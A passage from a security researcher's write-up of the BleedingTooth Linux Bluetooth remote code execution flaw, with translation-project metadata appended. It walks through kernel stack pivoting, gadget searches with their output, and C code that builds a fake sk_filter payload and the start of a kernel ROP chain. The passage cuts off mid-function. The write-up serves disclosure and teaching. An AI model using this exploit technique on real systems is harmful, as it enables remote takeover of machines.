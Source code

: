 ```c
sk->sk_filter->prog->bpf_func(skb, sk->sk_filter->prog->insnsi);
```
As we have control over sk->sk_filter, we also have control over the two later dereferences. This ultimately gives us RIP control with the RSI register (second argument) pointing to our payload.
##### Kernel Stack Pivoting
Since modern CPUs have NX, it is not possible to directly execute shellcodes. However, we can perform a code-reuse attack such as ROP/JOP. Of course, in order to reuse code, we must know where it is located, which is why the KASLR bypass is essential. Regarding the possible attacks, ROP is normally easier to perform than JOP, but that requires us to redirect the stack pointer RSP. For this reason, exploit developers usually perform JOP to stack pivot and then finish with a ROP chain.

The idea is to redirect the stack pointer to a fake stack in our payload consisting of ROP gadgets, i.e. our ROP chain. Since we know that RSI points to our payload, we want to move the value of RSI to RSP. Let’s see if there is a gadget that allows us to do so.

To extract the gadgets, we can use the following tools:

* extract-vmlinux to decompress /boot/vmlinuz.
* ROPgadget to extract ROP gadgets from vmlinux.

Looking for gadgets like mov rsp, X ; ret, we can see that none of them are useful.
```c
$ cat gadgets.txt | grep ": mov rsp.*ret"
0xffffffff8109410c : mov rsp, qword ptr [rip + 0x15bb0fd] ; pop rbx ; pop rbp ; ret
0xffffffff810940c2 : mov rsp, qword ptr [rsp] ; pop rbp ; ret
0xffffffff8108ef0c : mov rsp, rbp ; pop rbp ; ret
```
Maybe there is something like push rsi ; pop rsp ; ret?
```c
$ cat gadgets.txt | grep ": push rsi.*pop rsp.*ret"
0xffffffff81567f46 : push rsi ; adc al, 0x57 ; add byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; ret
0xffffffff8156a128 : push rsi ; add byte ptr [rbx + 0x41], bl ; pop rsp ; pop r13 ; pop rbp ; ret
0xffffffff81556cad : push rsi ; add byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; ret
0xffffffff81c02ab5 : push rsi ; lcall [rbx + 0x41] ; pop rsp ; pop rbp ; ret
0xffffffff8105e049 : push rsi ; sbb byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; ret
0xffffffff81993887 : push rsi ; xchg eax, ecx ; lcall [rbx + 0x41] ; pop rsp ; pop r13 ; pop rbp ; ret
```
Perfect, there are lots of gadgets that can be used. Interestingly, all gadgets dereference RBX+0x41, which is most likely part of a commonly used instruction or sequence of instructions. To elaborate, as instructions can begin at any byte in x86, they can be interpreted differently based on the start byte. The dereference of RBX+0x41 may actually hinder us from using the gadgets – namely, if RBX does not contain a writable memory address at the execution of bpf_func(), we will simply hit a panic before we can execute our ROP chain. In our case, luckily, RBX points to the struct amp_mgr object and it does not really hurt if the byte at offset 0x41 gets changed.

When choosing the stack pivot gadget as a function pointer for bpf_func() and triggering it, the value of RSI will be pushed onto stack, then popped from stack and finally assigned to RSP. In other words, the stack pointer will point to our payload, and once the RET instruction is executed, our ROP chain will kick off.
```c
static void build_payload(uint8_t data[0x400]) {
  // Fake sk_filter object starting at offset 0x300.
  *(uint64_t *)&data[0x318] = l2cap_chan_addr + 0x320;  // prog

  // Fake bpf_prog object starting at offset 0x320.
  // RBX points to the amp_mgr object.
  *(uint64_t *)&data[0x350] =
      kaslr_offset +
      PUSH_RSI_ADD_BYTE_PTR_RBX_41_BL_POP_RSP_POP_RBP_RET;  // bpf_func
  *(uint64_t *)&data[0x358] = 0xDEADBEEF;                   // rbp

  // Build kernel ROP chain that executes run_cmd() from kernel/reboot.c.
  // Note that when executing the ROP chain, the data below in memory will be
  // overwritten. Therefore, the argument should be located after the ROP chain.
```

[#]: collector: (选题人 Licae)
[#]: translator: ( )
[#]: reviewer: ( )
[#]: publisher: ( )
[#]: subject: (BleedingTooth: Linux Bluetooth Zero-Click Remote Code Execution)
[#]: via: (https://google.github.io/security-research/pocs/linux/bleedingtooth/writeup.html#bypassing-badkarma)
[#]: author: (Andy Nguyen https://google.github.io/security-research)
[#]: url: ( )
[a]: 作者链接 https://google.github.io/security-research
[b]: 选题链接 URL
[1]: 图片链接地址
[2]: 文内链接地址